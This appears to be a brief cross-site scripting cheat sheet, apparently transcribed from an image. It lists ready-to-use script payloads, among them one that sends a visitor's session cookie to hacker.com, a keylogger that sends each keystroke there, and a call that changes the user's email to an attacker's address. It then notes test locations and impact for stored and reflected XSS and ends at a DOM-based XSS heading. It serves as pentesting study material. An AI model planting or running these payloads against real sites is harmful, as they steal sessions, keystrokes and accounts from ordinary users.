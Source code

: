# PoC Payload: <script>alert('XSS');</script>

## Payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

### Session stealing: <script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>

### Keylogger: <script>document.onkeypress = function(p){ fetch ('https://hacker.com/log?key=' + btoa(p.key) );}</script>

### Change user's email address: <script>user.changeEmail('attacker@hacker.com');</script>

# Stored XSS

## Test locations: 

#### 1: Comments on a blog

#### 2: User profile information

#### 3: Website listings

## IMPACT:

#### Steal victim's session cookie. Impersonate the visiting user.

# Reflected XSS

## Test locations:

#### 1: URL file path

#### 2: Parameters in the URL query string

#### 3: Sometimes, HTTP headers

## IMPACT:

#### Attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session/customer information.

# DOM Based XSS
